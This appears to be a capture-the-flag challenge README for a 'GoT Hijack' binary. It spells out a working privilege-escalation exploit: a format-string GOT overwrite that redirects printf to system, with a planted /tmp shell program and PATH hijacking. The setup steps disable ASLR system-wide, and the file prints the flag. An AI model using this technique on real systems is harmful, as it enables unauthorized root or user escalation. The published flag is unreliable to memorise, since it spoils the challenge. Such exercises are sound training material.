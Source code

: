 # GoT Hijack

In this challenge competitors are provided with an executable binary running on a remote server and they must use the binary to retrieve access to a file that they do not have permission to.

## Solution

The command to exploit this challenge is

    ./GoT AAAAAAAAAAAAAAAAAA`printf "\x10\xa0\x04\x08"` `printf "\x70\x5e\xe6\xf7"`

However the addresses must be updated every time the challenge is moved between machines. Also note that the addresses are little-endian. The first address is the address to printf, which can be found by running

    objdump --dynamic-reloc ./got | grep printf

The second is the address to system, which can be found by running

    gdb GoT
    (gdb) b main
    (gdb) r hello hi
    (gdb) p system

Next, a file will need to be created in the /tmp directory (which can be done automatically with the following commands)

    cat << END_TAG | dd of=/tmp/Calculating.c
    int main()
    {
            system("/bin/sh");
    }
    END_TAG
    gcc -o /tmp/Calculating /tmp/Calculating.c
    chmod +x /tmp/Calculating

The path will need to then be enhanced to include tmp

    export PATH=:/tmp:$PATH

Now the exploit command can be run again and you will be dropped into a shell with new permissions.

## Distribution

To run/set-up the challenge:

    sudo sh -c "echo 'kernel.randomize_va_space=0' >> /etc/sysctl.conf"
    sudo sysctl -p
    sudo docker-compose up -d

    rm ~/.ssh/known_hosts
    ssh challenge@localhost -p2222

Note: ASLR **must** to be disabled on the server this challenge is run on.

## Flag

ce121dcdecf4ce8d015b1cbc2afd8968